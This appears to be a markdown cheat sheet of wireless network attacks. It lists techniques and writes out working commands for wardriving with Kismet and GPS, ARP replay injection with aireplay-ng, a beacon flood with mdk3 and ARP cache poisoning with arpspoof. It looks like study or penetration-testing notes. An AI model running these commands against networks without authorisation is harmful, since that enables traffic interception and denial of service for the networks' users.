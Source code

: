
## access control attacks

* war driving
* rogue access points
* MAC spoofing
* ad hoc associations
* AP misconfigurations
* client misassociation
* unauthorized association
* promiscuous client

## wardriving

```
kismet
```

Improve location accuracy using a USB GPS device

```
apt-get install gpsd
apt-get install gpsd-clients
lsusb
ls /dev/gps*
apt-get install giskimet
giskismet ­-x Kismet-DATE.netxml ­-q "select * 
    from  wireless" ­-o wardrive.kml
```

## sniffing tools

* Dsniff
* Tcpdump
* EtherApe
* Wireshark
* Kismet
* arpspoof

## arpreplay

Once target shows up in aireplay

```
aireplay-ng --arpreplay -b <target BSSID> -h <MAC of connected client> <interface>
aireplay-ng -2 -r ./replay_.cap ath0
```

## turn up signal power

```
iwconfig wlan0 txpower 27
```

## attacking availability

* dissassociation flood
* detecting beacon frames
* spoofing beacon frames
* executing a beacon flood
* executing a deauthentication flood
* ARP cache poisening
* performing a denial of service
* hiding a wireless network

## beacon frame flood

```
mdk3 wlan0mon b -n "impa" -b 54 -w a -m -c 11
```

## arp cache poisening

```
arpspoof -i eth0 -t target-ip target-gateway-ip
```
